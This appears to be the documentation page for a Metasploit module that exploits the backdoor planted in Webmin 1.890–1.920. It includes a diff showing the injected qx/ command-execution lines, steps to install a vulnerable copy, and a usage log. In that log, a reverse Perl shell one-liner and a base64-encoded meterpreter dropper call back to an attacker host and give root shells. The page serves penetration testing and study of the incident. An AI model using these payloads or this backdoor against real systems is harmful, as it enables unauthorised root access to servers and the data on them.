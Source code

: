 ## Introduction

This module exploits a backdoor in Webmin versions 1.890 through 1.920.
Only the SourceForge downloads were backdoored, but they are listed as
official downloads on the project's site.

Unknown attacker(s) inserted Perl `qx` statements into the build server's
source code on two separate occasions: once in April 2018, introducing
the backdoor in the 1.890 release, and in July 2018, reintroducing the
backdoor in releases 1.900 through 1.920.

Only version 1.890 is exploitable in the default install. Later affected
versions require the expired password changing feature to be enabled.

## Analysis

The backdoored code can compared across space and time with `diff3(1)`.

```
wvu@kharak:~/Downloads$ diff3 webmin-1.{890,930,920}/password_change.cgi
====2
1:1c
3:1c
  #!/usr/bin/perl
2:1c
  #!/usr/local/bin/perl
====1
1:12c
  $in{'expired'} eq '' || die $text{'password_expired'},qx/$in{'expired'}/;
2:12c
3:12c
  $miniserv{'passwd_mode'} == 2 || die "Password changing is not enabled!";
====3
1:40c
2:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'});
3:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
====3
1:200c
2:200c
  # Show ok page
3:200c

wvu@kharak:~/Downloads$
```

## Setup

1. `wget https://prdownloads.sourceforge.net/webadmin/webmin-1.890.tar.gz`
2. `tar xf webmin-1.890.tar.gz`
3. `cd webmin-1.890`
4. `./setup.sh`

## Targets

```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Options

### RPORT

Set this to the Webmin port. The default is 10000.

### TARGETURI

Set this to the Webmin base path. The default is `/`.

### ForceExploit

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"172.28.128.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (172.28.128.1:4444 -> 172.28.128.5:58374) at 2019-08-21 16:49:24 -0500

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu-xenial 4.4.0-141-generic #167-Ubuntu SMP Wed Dec 5 10:40:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
msf exploit(linux/http/webmin_backdoor) > set target 1
target => 1
msf exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/FgFBP.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tDGmH' < '/tmp/FgFBP.b64' ; chmod +x '/tmp/tDGmH' ; '/tmp/tDGmH' ; rm -f '/tmp/tDGmH' ; rm -f '/tmp/FgFBP.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 172.28.128.5
[*] Meterpreter session 2 opened (172.28.128.1:4444 -> 172.28.128.5:58376) at 2019-08-21 16:49:33 -0500
[*] Command Stager progress - 100.00% done (819/819 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-141-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
